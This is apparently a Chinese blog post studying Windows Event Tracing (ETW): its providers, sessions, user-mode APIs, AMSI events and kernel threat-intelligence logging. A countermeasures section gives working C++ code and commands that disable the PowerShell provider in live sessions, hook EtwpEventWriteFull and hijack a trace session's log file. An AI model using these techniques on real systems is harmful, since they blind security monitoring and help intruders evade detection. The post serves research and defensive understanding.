# ETW机制详解与安全研究-先知社区

> **来源**: https://xz.aliyun.com/news/17385  
> **文章ID**: 17385

---

记录一下ETW这块的学习

# 简介

ETW(Event Tracing for Windows) 是Windows提供的一个机制 用于跟踪,记录应用程序产生的事件

整个体系主要由提供者(provider), 跟踪会话(Tracing session) 和 消费者(consumer)构成

每个 Provider 都用唯一的GUID标识，并定义其可用事件

通过logman query providers可以查看所有的提供者



可以通过命令logman query providers "Provider Name" 查看所有该provider提供的事件

这里用我们之前在ppid伪造时提到的进程创建监控举例 提供者是Microsoft-Windows-Kernel-Process



也可以查看指定GUID的事件



在性能监视器的事件跟踪会话中我们可以看见所有正在运行的消费者



或通过命令 logman query -ets



创建一个跟踪会话 并订阅Microsoft-Windows-Kernel-Process的WINEVENT\_KEYWORD\_PROCESS





这里事件id的含义可以通过wevtutil查找

wevtutil gp Microsoft-Windows-Kernel-Process /ge:true



# 三环API

介绍一下下面可能要用到的 用户模式下API

## EventRegister

```
ULONG EVNTAPI EventRegister(
   [in]           LPCGUID         ProviderId,
   [in, optional] PENABLECALLBACK EnableCallback,
   [in, optional] PVOID           CallbackContext,
   [out]          PREGHANDLE      RegHandle
 );
```

注册一个ETW提供者

ProviderId 要求提供一个GUID 用于标识事件源 例如

GUID guid = { 0xd99e9dba, 0x1772, 0x407c, {0xa9, 0x60, 0x81, 0xa3, 0xd4, 0x52, 0x2a, 0x98} };;

EnableCallback 回调函数

CallbackContext 参数

RegHandle 返回的句柄

对应的EventUnregister 接收句柄并取消注册

## EventWrite

```
ULONG EVNTAPI EventWrite(
   [in]           REGHANDLE              RegHandle,
   [in]           PCEVENT_DESCRIPTOR     EventDescriptor,
   [in]           ULONG                  UserDataCount,
   [in, optional] PEVENT_DATA_DESCRIPTOR UserData
 );
```

RegHandle 句柄

EventDescriptor 描述事件的结构

UserDataCount UserData的结构数量

UserDataEVENT\_DATA\_DESCRIPTOR结构的指针 该结构用EventDataDescCreate函数初始化

### EVENT\_DESCRIPTOR

```
typedef struct _EVENT_DESCRIPTOR {
   USHORT    Id;
   UCHAR     Version;
   UCHAR     Channel;
   UCHAR     Level;
   UCHAR     Opcode;
   USHORT    Task;
   ULONGLONG Keyword;
 } EVENT_DESCRIPTOR, *PEVENT_DESCRIPTOR;
```

其中比较重要的

Level 描述事件的重要性



Task 用于事件分类



Keyword 用于事件分类 提供者为消费者提供的事件类型



## StartTrace

启动事件追踪

```
ULONG WMIAPI StartTraceA(
             CONTROLTRACE_ID         *TraceId,
   [in]      LPCSTR                  InstanceName,
   [in, out] PEVENT_TRACE_PROPERTIES Properties
 );
```

TraceId 写回的id

InstanceName 名字 描述性名称

Properties 指向EVENT\_TRACE\_PROPERTIES结构的指针

对应的关闭操作是利用ControlTrace完成的 当ControlCode设置为EVENT\_TRACE\_CONTROL\_STOP时停止事件追踪

### EVENT\_TRACE\_PROPERTIES

比较重要的成员

Wnode.BufferSize 结构体大小

Wnode.Flags 特性



Wnode.ClientContext 时间戳来源

LogFileMode 日志存储模式 EVENT\_TRACE\_FILE\_MODE\_SEQUENTIAL



EnableFlags 要捕获的事件类型



## QueryAllTraces

查询所有正在运行的跟踪会话属性

```
ULONG WMIAPI QueryAllTracesA(
   [out] PEVENT_TRACE_PROPERTIES *PropertyArray,
   [in]  ULONG                   PropertyArrayCount,
   [out] PULONG                  LoggerCount
 );
```

PropertyArray 写回的指针数组

PropertyArrayCount 数组的元素个数

LoggerCount 写回正在运行的追踪会话的总数

MSDN提供的demo输出类似这样



## EnableTraceEx2

```
ULONG WMIAPI EnableTraceEx2(
                  CONTROLTRACE_ID          TraceId,
   [in]           LPCGUID                  ProviderId,
   [in]           ULONG                    ControlCode,
   [in]           UCHAR                    Level,
   [in]           ULONGLONG                MatchAnyKeyword,
   [in]           ULONGLONG                MatchAllKeyword,
   [in]           ULONG                    Timeout,
   [in, optional] PENABLE_TRACE_PARAMETERS EnableParameters
 );
```

ProviderId provider的GUID

ControlCode 禁用或启用



EnableParameters 指向ENABLE\_TRACE\_PARAMETERS结构的指针 比较重要

### ENABLE\_TRACE\_PARAMETERS

其中最重要的成员EnableProperty 也就是用logman查询到的properties



一般都是65 0x41 也就是EVENT\_ENABLE\_PROPERTY\_SID | EVENT\_ENABLE\_PROPERTY\_ENABLE\_KEYWORD\_0



## TdhEnumerateProviders

```
TDHSTATUS TdhEnumerateProviders(
   [out]     PPROVIDER_ENUMERATION_INFO pBuffer,
   [in, out] ULONG                      *pBufferSize
 );
```

获取所有提供者信息 包括GUID nameoffset

```
DWORD status = 0;
  PPROVIDER_ENUMERATION_INFO pei = NULL;
  DWORD peiSize = 0;
 
 
  if (TdhEnumerateProviders(pei, &peiSize) == ERROR_INSUFFICIENT_BUFFER) {
      pei = (PROVIDER_ENUMERATION_INFO*)GlobalAlloc(GPTR, peiSize);
  }
 
  status = TdhEnumerateProviders(pei, &peiSize);
 
  if (status == ERROR_SUCCESS) {
      for (int i = 0; i < pei->NumberOfProviders; i++) {
          GUID guid = pei->TraceProviderInfoArray[i].ProviderGuid;
          printf("GUID: {%08lX-%04hX-%04hX-%02hhX%02hhX-%02hhX%02hhX%02hhX%02hhX%02hhX%02hhX}
",
              guid.Data1, guid.Data2, guid.Data3,
              guid.Data4[0], guid.Data4[1], guid.Data4[2], guid.Data4[3],
              guid.Data4[4], guid.Data4[5], guid.Data4[6], guid.Data4[7]);
          LPWSTR name = (LPWSTR)((DWORD_PTR)pei + pei->TraceProviderInfoArray[i].ProviderNameOffset);
          printf("name: %ws
", name);
      }
  }
```



## EnumerateTraceGuidsEx

获取跟踪会话相关信息 TraceQueryInfoClass枚举的值可以在evntrace.h中查看详细介绍

不同的枚举对输入要求不同

```
ULONG WMIAPI EnumerateTraceGuidsEx(
  [in]  TRACE_QUERY_INFO_CLASS TraceQueryInfoClass,
  [in]  PVOID                  InBuffer,
  [in]  ULONG                  InBufferSize,
  [out] PVOID                  OutBuffer,
  [in]  ULONG                  OutBufferSize,
  [out] PULONG                 ReturnLength
);
```



这里涉及到三个结构

TRACE\_GUID\_INFOTRACE\_PROVIDER\_INSTANCE\_INFOTRACE\_ENABLE\_INFO

TRACE\_GUID\_INFO.InstanceCount 表明 TRACE\_PROVIDER\_INSTANCE\_INFO 的数量

TRACE\_PROVIDER\_INSTANCE\_INFO.EnableCount 表明 TRACE\_ENABLE\_INFO 的数量

如例子中给出的InstanceCount = 2 代表块中一共有两个TRACE\_PROVIDER\_INSTANCE\_INFO TRACE\_PROVIDER\_INSTANCE\_INFO.EnableCount = 2 接下来有两个TRACE\_ENABLE\_INFO

其中比较重要的成员 TRACE\_ENABLE\_INFO.LoggerId 也就是TraceId 调用EnableTraceEx2等函数需要TraceId

可以考虑hook上述函数进行ETW的规避

# AMSI

将amsi.dll拖入ida

可以在GenerateEtwEvent中找到EventWrite的调用





id: 0x44d

Version: 0x0

Channel: 0x10

Level: 0x4 (TRACE\_LEVEL\_INFORMATION)

Opcode: 0x0

Task 0x0

Keyword 0x8000000000000001 event1



# 相关对抗

## 1.移除Autologger子项

HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\WMI\Autologger下移除指定事件会话的提供者 在下次开机时无法接受到对应事件



当然修改Enable的值也是一样的

重启后生效

## 2.修改Properties

前文说到的Provider的Properties 一般是0x65

EVENT\_ENABLE\_PROPERTY\_SID | EVENT\_ENABLE\_PROPERTY\_ENABLE\_KEYWORD\_0

在事件的扩展数据中包含用户的安全标识符 且 记录keyword为0的事件

将EVENT\_ENABLE\_PROPERTY\_ENABLE\_KEYWORD\_0替换成EVENT\_ENABLE\_PROPERTY\_IGNORE\_KEYWORD\_0 也就是0x11 将导致不记录keyword为0的事件



重启后生效

## 3.从事件会话中移除提供者

需要system权限 立即生效

logman update trace EventLog-Application --p Microsoft-Windows-PowerShell -ets

--p取消订阅 -p订阅

通过winApi实现如下

```
#include <windows.h>
 #include <tdh.h>
 #include <evntrace.h>
 #include <map>
 #include <string>
 #include <vector>
 #pragma comment(lib, "tdh.lib")
 #pragma comment(lib, "advapi32.lib")
 
 struct GUIDComparer {
     bool operator()(const GUID& lhs, const GUID& rhs) const {
         return memcmp(&lhs, &rhs, sizeof(GUID)) < 0;
     }
 };
 
 std::map<GUID, std::wstring, GUIDComparer> EnumerateProviders() {
     std::map<GUID, std::wstring, GUIDComparer> providerMap;
     DWORD peiSize = 0;
     PPROVIDER_ENUMERATION_INFO pei = NULL;
 
     if (TdhEnumerateProviders(NULL, &peiSize) == ERROR_INSUFFICIENT_BUFFER) {
         pei = (PPROVIDER_ENUMERATION_INFO)GlobalAlloc(GPTR, peiSize);
     }
     if (!pei || TdhEnumerateProviders(pei, &peiSize) != ERROR_SUCCESS) {
         return providerMap;
     }
 
     for (DWORD i = 0; i < pei->NumberOfProviders; i++) {
         GUID guid = pei->TraceProviderInfoArray[i].ProviderGuid;
         LPWSTR name = (LPWSTR)((DWORD_PTR)pei + pei->TraceProviderInfoArray[i].ProviderNameOffset);
         providerMap[guid] = name;
     }
     GlobalFree(pei);
     return providerMap;
 }
 
 std::vector<GUID> EnumerateActiveTraceGuids() {
     std::vector<GUID> activeGuids;
     DWORD bufferSize = BUFSIZ, listSize = 0;
     GUID* guids = (GUID*)GlobalAlloc(GPTR, bufferSize);
 
     while (EnumerateTraceGuidsEx(TraceGuidQueryList, NULL, 0, guids, bufferSize, &listSize) == ERROR_INSUFFICIENT_BUFFER) {
         bufferSize = listSize;
         guids = (GUID*)GlobalReAlloc(guids, bufferSize, GMEM_ZEROINIT | GMEM_MOVEABLE);
     }
 
     DWORD guidCount = listSize / sizeof(GUID);
     for (DWORD i = 0; i < guidCount; i++) {
         activeGuids.push_back(guids[i]);
     }
     GlobalFree(guids);
     return activeGuids;
 }
 
 BOOLEAN DisableProvider(CONTROLTRACE_ID traceId, const GUID& providerGuid) {
     return EnableTraceEx2(
         (TRACEHANDLE)traceId,
         &providerGuid,
         EVENT_CONTROL_CODE_DISABLE_PROVIDER,
         TRACE_LEVEL_VERBOSE,
         0, 0, 0, NULL
     ) == ERROR_SUCCESS;
 }
 
 BOOLEAN RemoveProvider() {
 
     BOOLEAN bRet = FALSE;
 
     auto providerMap = EnumerateProviders();
     auto activeGuids = EnumerateActiveTraceGuids();
     WCHAR targetName[] = L"Microsoft-Windows-PowerShell";
 
     for (auto& guid : activeGuids) {
         PTRACE_GUID_INFO traceInfo = (PTRACE_GUID_INFO)GlobalAlloc(GPTR, BUFSIZ);
         DWORD traceInfoSize = BUFSIZ, neededSize = 0;
 
         while (EnumerateTraceGuidsEx(TraceGuidQueryInfo, &guid, sizeof(GUID), traceInfo, traceInfoSize, &neededSize) == ERROR_INSUFFICIENT_BUFFER) {
             traceInfoSize = neededSize;
             traceInfo = (PTRACE_GUID_INFO)GlobalReAlloc(traceInfo, traceInfoSize, GMEM_ZEROINIT | GMEM_MOVEABLE);
         }
 
         PTRACE_PROVIDER_INSTANCE_INFO instance = (PTRACE_PROVIDER_INSTANCE_INFO)((PBYTE)traceInfo + sizeof(TRACE_GUID_INFO));
         for (DWORD i = 0; i < traceInfo->InstanceCount; i++) {
             if (instance->EnableCount > 0) {
                 PTRACE_ENABLE_INFO enableInfo = (PTRACE_ENABLE_INFO)((PBYTE)instance + sizeof(TRACE_PROVIDER_INSTANCE_INFO));
                 CONTROLTRACE_ID traceId = enableInfo->LoggerId;
 
                 auto it = providerMap.find(guid);
                 if (it != providerMap.end() && _wcsicmp(it->second.c_str(), targetName) == 0) {
                     wprintf(L"%s found!
", it->second.c_str());
 
                     if (DisableProvider(traceId, guid)) {
                         wprintf(L"%s disabled!
", it->second.c_str());
                         bRet = TRUE;
                     }
                 }
             }
             instance = (PTRACE_PROVIDER_INSTANCE_INFO)((PBYTE)instance + instance->NextOffset);
         }
         GlobalFree(traceInfo);
     }
 
     return bRet;
 }
 
 int main() {
     BOOLEAN bRet = RemoveProvider();
     return 0;
 }
```



## 4.Hook EtwEventWrite



底层调用EtwpEventWriteFull 最终调用到NtTraceEvent进0环

hook就不多说了

这里选择hook 未导出的EtwpEventWriteFull比较好

```
LPVOID findEtwpEventWriteFull() {
	LPVOID EtwpEventWriteFull = NULL;
	for (int i = 0; i < 0xfff; i++) {
		if (EtwEventWrite[i] == 0x66 && EtwEventWrite[i + 1] == 0x89 && EtwEventWrite[i + 5] == 0xE8) {
			DWORD offset = *(PDWORD)(EtwEventWrite + 6 + i);
			EtwpEventWriteFull = (LPVOID)(EtwEventWrite + i + 10 + offset);
			printf("EtwpEventWriteFull Addr: %llx
", EtwpEventWriteFull);
			break;
		}
	}
	return EtwpEventWriteFull;
}
```

## 5.会话劫持

首先通过QueryAllTraces获取当运行的所有会话

```
ULONG propSize = sizeof(EVENT_TRACE_PROPERTIES) + (1024 * sizeof(char)) + (1024 * sizeof(char));
	ULONG totalSize = 64 * propSize;
	std::vector<PEVENT_TRACE_PROPERTIES> traceProps(64);
	std::vector<BYTE> buffer;
	ULONG loggerCount = 0;

	buffer.resize(totalSize);
	for (int i = 0; i < 64; i++){
		traceProps[i] = (PEVENT_TRACE_PROPERTIES)&buffer[i * propSize];
		traceProps[i]->Wnode.BufferSize = propSize;
		traceProps[i]->LoggerNameOffset = sizeof(EVENT_TRACE_PROPERTIES);
		traceProps[i]->LogFileNameOffset = sizeof(EVENT_TRACE_PROPERTIES) + (1024 * sizeof(char));
	}
	ULONG status = QueryAllTracesW(traceProps.data(), 64, &loggerCount);
```

接着遍历traceProps获取目标会话 通过ControlTrace停止会话 修改LogFileName

之后事件将会被写入修改后的logfile中

```
BOOLEAN bRet = TRUE;
	PWCHAR name = NULL;
	PEVENT_TRACE_PROPERTIES targetTraceProps = NULL;
	for (int i = 0; i < loggerCount; i++) {
		name = (PWCHAR)((DWORD_PTR)traceProps[i] + traceProps[i]->LoggerNameOffset);
		PWCHAR fileName = (PWCHAR)((DWORD_PTR)traceProps[i] + traceProps[i]->LogFileNameOffset);

		if (_wcsicmp(name, targetName) == 0) {
			ULONG status = ControlTraceW((CONTROLTRACE_ID)traceProps[i]->LoggerThreadId, name, traceProps[i], EVENT_TRACE_CONTROL_STOP);
			if (status == ERROR_SUCCESS) {
				targetTraceProps = traceProps[i];
				printf("stop %ws success!
", name);
				wcscpy_s(fileName, (1024 * sizeof(WCHAR)), L"C:\1.etl");
				if (_wcsicmp(fileName, L"C:\1.etl") == 0) {
					printf("Hijack %ws success!
", name);
				}
			}
			else{
				bRet = FALSE;
				printf("stop %ws Failed! status: %llx
", name,status);
			}
			break;
		}
		
	}
```

重新启动

```
if (bRet) {
		CONTROLTRACE_ID traceID = 0;
		ULONG status = StartTraceW(&traceID, name, targetTraceProps);
		if(status == ERROR_SUCCESS){
			printf("start %ws success!
", name);
		}
	}
```





# 内核

NtAllocateVirtualMemory 调用了MiAllocateVirtualMemory

其中调用了EtwTiLogAllocExecVm



这类EtwTi开头的函数都是用于记录威胁信息的 这里的ti指的是Threat-Intelligence





这里的ProtectionMask 不是三环那个掩码 而是通过MiMakeProtectionMask生成的

```
CCHAR MmUserProtectionToMask1[16] = {
                                 0,
                                 MM_NOACCESS,
                                 MM_READONLY,
                                 -1,
                                 MM_READWRITE,
                                 -1,
                                 -1,
                                 -1,
                                 MM_WRITECOPY,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1 };

CCHAR MmUserProtectionToMask2[16] = {
                                 0,
                                 MM_EXECUTE,
                                 MM_EXECUTE_READ,
                                 -1,
                                 MM_EXECUTE_READWRITE,
                                 -1,
                                 -1,
                                 -1,
                                 MM_EXECUTE_WRITECOPY,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1,
                                 -1 };
```

高低位分开 高位为0则查低位 低位为0则查高位 比如PAGE\_READONLY 对应着0x2 也就是查低位 得到MM\_READONLY

```
#define MM_ZERO_ACCESS         0  // this value is not used.
#define MM_READONLY            1
#define MM_EXECUTE             2
#define MM_EXECUTE_READ        3
#define MM_READWRITE           4  // bit 2 is set if this is writable.
#define MM_WRITECOPY           5
#define MM_EXECUTE_READWRITE   6
#define MM_EXECUTE_WRITECOPY   7

#define MM_NOCACHE            0x8
#define MM_GUARD_PAGE         0x10
#define MM_DECOMMIT           0x10   // NO_ACCESS, Guard page
#define MM_NOACCESS           0x18   // NO_ACCESS, Guard_page, nocache.
#define MM_UNKNOWN_PROTECTION 0x100  // bigger than 5 bits!

#define MM_INVALID_PROTECTION ((ULONG)-1)  // bigger than 5 bits!

#define MM_PROTECTION_WRITE_MASK     4
#define MM_PROTECTION_COPY_MASK      1
#define MM_PROTECTION_OPERATION_MASK 7 // mask off guard page and nocache.
#define MM_PROTECTION_EXECUTE_MASK   2

#define MM_SECURE_DELETE_CHECK 0x55
```

对应的也就是0x1

这里ProtectionMask&2 != 0 也就是记录的MM\_EXECUTE 对应的三环0x10

接着看EtwTiLogAllocExecVm 其中调用了EtwProviderEnabled 和 EtwEventEnabled

当这两个函数均返回TRUE后才会走进EtwWrite记录日志

前者验证Provider是否在指定的level和keyword上启用

后者验证是否启用了事件





# 

# 参考

<https://blog.trailofbits.com/2023/11/22/etw-internals-for-security-research-and-forensics/>

<https://blog.palantir.com/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63>

<https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101>

<https://posts.specterops.io/uncovering-windows-events-b4b9db7eac54>

<https://github.com/maxamin/Offensive-SysAdmin-Security-Utilities/blob/76bb59a47bbea79017c09e367ff9a34d54b65df2/etwkiller.c>

<https://www.binarly.io/blog/design-issues-of-modern-edrs-bypassing-etw-based-solutions>

<https://undev.ninja/introduction-to-threat-intelligence-etw/>

<https://b4rtik.github.io/posts/evading-windefender-atp-credential-theft-kernel-version/>
